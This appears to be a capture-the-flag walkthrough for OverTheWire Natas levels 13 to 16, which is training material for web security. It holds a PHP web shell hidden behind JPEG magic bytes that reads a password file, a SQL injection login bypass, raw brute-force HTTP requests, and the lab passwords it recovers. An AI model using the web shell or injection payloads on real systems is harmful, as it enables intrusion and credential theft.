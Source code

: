 Output: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

### lvl 13-14

```python
>>> fh = open('shell.php', 'w')
>>> fh.write('\xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>')
>>> fh.close()
```

```html
http://natas13.natas.labs.overthewire.org/upload/som2d7x3fz.php?cmd=cat%20/etc/natas_webpass/natas14
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

### lvl 14-15

```html
POST /index.php?debug=1 HTTP/1.1
Host: natas14.natas.labs.overthewire.org
Content-Length: 44
Cache-Control: max-age=0
Authorization: Basic bmF0YXMxNDpMZzk2TTEwVGRmYVB5VkJrSmRqeW1ibGxRNUw2cWRsMQ==
Upgrade-Insecure-Requests: 1
Origin: http://natas14.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas14.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Cookie: __utma=176859643.472868426.1590939308.1590939308.1591176859.2; __utmc=176859643; __utmz=176859643.1590939308.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)
Connection: close

username="+union+select+1,2--+-&password=aad
```

```html
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

### lvl 15-16

```html
//ran this on intruder multiple time to get the password
POST /index.php?debug=1 HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Content-Length: 131
Cache-Control: max-age=0
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Upgrade-Insecure-Requests: 1
Origin: http://natas15.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas15.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Cookie: __utmc=176859643; __utma=176859643.472868426.1590939308.1591176859.1593693887.3; __utmz=176859643.1593693887.3.2.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided)
Connection: close
```